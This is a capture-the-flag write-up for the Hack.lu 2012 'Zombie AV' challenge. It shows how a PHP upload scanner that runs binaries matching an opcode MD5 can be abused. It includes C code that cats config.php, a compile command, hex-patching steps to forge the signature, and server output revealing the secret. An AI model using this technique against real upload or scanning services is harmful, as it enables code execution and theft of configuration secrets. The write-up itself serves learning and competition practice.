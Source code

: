 ```yaml
---
title: "Hack.lu CTF 2012 - Zombie AV"
tags:
  - hacklu2012
  - writeup
  - web
---
```


Some people try to fight the zombie apocalypse by selling pseudo antidote. We
need the secret formula in config.php to destroy their snake oil business...

Source: http://dl.ctftime.org/38/119/zombieav.zip

Page: https://ctf.fluxfingers.net:2070

Basically we just want to read the config.php file for the $secret.

From the sample config.php in the zip file:

```php
<?php

$readelfpath='/usr/bin/readelf';
$objdumppath='/usr/bin/objdump';
$uploadpath='upload/';
$scriptpath='/var/www/';
$secret='______________________';

?>
```

Uploading any random binary shows us this:

```
analysing file 3fe6e0634a9977050ac1f9d67e4edc59
8048330: 31 ed xor %ebp,%ebp
8048332: 5e pop %esi
8048333: 89 e1 mov %esp,%ecx
8048335: 83 e4 f0 and $0xfffffff0,%esp
8048338: 50 push %eax
8048339: 54 push %esp
804833a: 52 push %edx
804833b: 68 b0 84 04 08 push $0x80484b0
8048340: 68 50 84 04 08 push $0x8048450
8048345: 51 push %ecx
8048346: 56 push %esi
8048347: 68 04 84 04 08 push $0x8048404
804834c: e8 bf ff ff ff call 8048310 <__libc_start_main@plt>
8048351: f4 hlt
8048352: 90 nop
8048353: 90 nop
8048354: 55 push %ebp
80483
Entry Opcodes are: 31 ed 5e 89 e1 83 e4 f0 50 54 52 68
Signature is: d87ae7dd8b166d8e2c02676d69561c96
no zombie virus found
```

No luck, its not the binary they're looking for. Taking a look at scan.php which
does the scanning, we see:

```php
$opcodes=getOpcodes($rest);
print "Entry Opcodes are: ".$opcodes;
print "n";
print "Signature is: " . md5($opcodes);
print "n";
```

So we see that getOpcodes() extracts exactly "31 ed 5e 89 e1 83 e4 f0 50 54 52
68" this much of hex from the binary. And scan.php does the matching by
`md5($opcodes) === 'cd53b957ec552afb39cba6daed7a9abc'`. All we need to do is get
scan.php to read the correct $opcodes that generates the desired md5sum.

There is a huge hint in the php file that tells us what opcodes generates the
desired md5sum.

```
/*
* hint: zombie virus signature is
* 8048340: b0 01 mov $0x1,%al
* 8048342: 90 nop
* 8048343: 90 nop
* 8048344: 90 nop
* 8048345: 90 nop
* 8048346: 90 nop
* 8048347: 90 nop
* 8048348: 90 nop
* 8048349: 90 nop
* 804834a: cd 80 int $0x80
*/
```

After passing the md5sum comparison check, scan.php executes the uploaded binary
and displays the output as shown in the source below. We can make use of this.

```php
if (md5($opcodes) === 'cd53b957ec552afb39cba6daed7a9abc') {
    print "found zombie virus, trying to execute itn";
    chmod($filename,755);

    $handle = popen($filename.' 2>&1', 'r');

    while (!feof($handle)) {
        $read .= fread($handle, 8192);
    }

    pclose($handle);

    print $read;
    @unlink($filename);
    print "done we are safen";
} else {
    print "no zombie virus found";
}

}
```

So we just need the uploaded binary to cat or read config.php and scan.php will
automagically display the contents.

The following C code does just that.

```c
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[]){
    char *path[] = {"/bin/cat", "config.php", NULL};
    execve("/bin/cat", path, NULL);

}
```

Compile it.

```shell
gcc -m32 -o prepay.elf test.c
```

After compiling, we just need to patch the binary, changing "31 ed 5e 89 e1 83
e4 f0 50 54 52 68" to "b0 01 90 90 90 90 90 90 90 90 cd 80". Fire up your hex
editor, search for hex "31 ed" blah, change it to "b0 01" blah. Save and upload
to Zombie AV.

```shell
analysing file 513160765dcc3d61a6cadd9c487ca00e
8048330: b0 01 mov $0x1,%al
8048332: 90 nop
8048333: 90 nop
8048334: 90 nop
8048335: 90 nop
8048336: 90 nop
8048337: 90 nop
8048338: 90 nop
8048339: 90 nop
804833a: cd 80 int $0x80
804833c: b0 84 mov $0x84,%al
804833e: 04 08 add $0x8,%al
8048340: 68 50 84 04 08 push $0x8048450
8048345: 51 push %ecx
8048346: 56 push %esi
8048347: 68 04 84 04 08 push $0x8048404
804834c: e8 bf ff ff ff call 8048310 <__libc_start_main@plt>
8048351: f4 hlt
8048352: 90
Entry Opcodes are: b0 01 90 90 90 90 90 90 90 90 cd 80
Signature is: cd53b957ec552afb39cba6daed7a9abc
found zombie virus, trying to execute it
<?php

$readelfpath='/usr/bin/readelf';
$objdumppath='/usr/bin/objdump';
$uploadpath='upload/';
$scriptpath='/var/www/';
$secret='55c4080daefb5f794c3527101882b50b';

?>
done we are safe
```
Automagically `$secret='55c4080daefb5f794c3527101882b50b';`

Flag: **55c4080daefb5f794c3527101882b50b**.
